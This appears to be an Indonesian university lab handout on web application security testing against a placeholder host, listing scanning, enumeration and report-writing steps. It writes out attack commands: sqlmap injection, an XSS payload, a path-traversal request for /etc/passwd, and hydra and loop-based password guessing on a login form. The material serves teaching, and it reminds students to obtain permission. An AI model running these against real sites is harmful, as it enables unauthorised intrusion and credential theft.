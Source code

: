 # Pertemuan 8: Praktikum Web Security

## Apersepsi (15 menit)
Setelah memahami konsep web security dan OWASP Top 10, kita akan mempraktekkan pengujian keamanan web secara langsung. Praktikum ini akan membantu mengidentifikasi dan mengamankan celah keamanan aplikasi web.

## Tujuan Pembelajaran
1. Melakukan web security testing
2. Mengidentifikasi celah keamanan
3. Menggunakan tools testing
4. Menerapkan teknik perbaikan

## Materi

### 1. Persiapan Testing (30 menit)
#### A. Environment Setup
```bash
# Install tools
sudo apt install -y burpsuite zaproxy nikto sqlmap

# Start services
sudo systemctl start postgresql
sudo burpsuite &
```

#### B. Target Configuration
```bash
# Create target file
echo "http://target.com" > targets.txt

# Test connectivity
curl -I http://target.com
ping -c 3 target.com
```

### 2. Information Gathering (45 menit)
#### A. Technology Detection
```bash
# Web technology scan
whatweb -v target.com

# SSL analysis
sslyze target.com

# Header inspection
curl -I target.com
```

#### B. Directory Enumeration
```bash
# Directory scanning
dirb http://target.com

# File discovery
gobuster dir -u target.com -w /usr/share/wordlists/dirb/common.txt

# Backup files
for ext in bak old backup; do
    curl -I target.com/index.php.$ext
done
```

### 3. Vulnerability Testing (45 menit)
#### A. Automated Scanning
```bash
# Nikto scan
nikto -h target.com -Tuning 123bde

# ZAP scan
zap-cli quick-scan target.com

# Store results
mkdir -p ~/websec/{scans,reports}
```

#### B. Manual Testing
```bash
# Test SQL injection
sqlmap -u "target.com/page.php?id=1" --dbs

# XSS testing
curl "target.com/search?q=<script>alert(1)</script>"

# File inclusion
curl "target.com/page.php?file=../../../etc/passwd"
```

### 4. Authentication Testing (45 menit)
#### A. Login Testing
```bash
# Basic auth test
hydra -L users.txt -P pass.txt target.com http-post-form

# Password policy
for pass in password 123456 admin; do
    curl -d "username=admin&password=$pass" target.com/login
done
```

#### B. Session Analysis
```bash
# Get session cookie
curl -c cookies.txt target.com/login

# Test session fixation
curl -b "session=test123" target.com

# Check cookie security
curl -I target.com | grep -i set-cookie
```

### 5. Report Generation (45 menit)
#### A. Evidence Collection
```bash
# Screenshot vulnerable pages
cutycapt --url=target.com --out=vuln.png

# Save responses
curl -D headers.txt target.com
wget -r -l1 target.com
```

#### B. Report Writing
```bash
# Create report structure
cat << EOF > web_security_report.md
# Web Security Assessment Report

## Executive Summary

## Methodology

## Findings
1. SQL Injection
2. XSS Vulnerabilities
3. Authentication Issues
4. Configuration Problems

## Recommendations

## Evidence
EOF
```

## Praktikum
### 1. Tool Usage
- Proxy configuration
- Scanner setup
- Testing tools

### 2. Security Testing
- Authentication testing
- Injection testing
- Configuration review

### 3. Documentation
- Evidence collection
- Finding verification
- Report writing

## Tugas
1. Lakukan web security assessment
2. Identifikasi celah keamanan
3. Buat laporan lengkap

## Referensi
1. [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
2. [Web Security Academy](https://portswigger.net/web-security)
3. [Bug Bounty Methodology](https://github.com/KathanP19/HowToHunt)

## Persiapan Pertemuan Selanjutnya
1. Pelajari konsep network security
2. Siapkan tools jaringan
3. Review protokol jaringan

*Note: Pastikan untuk selalu mendapat izin sebelum melakukan web security testing.*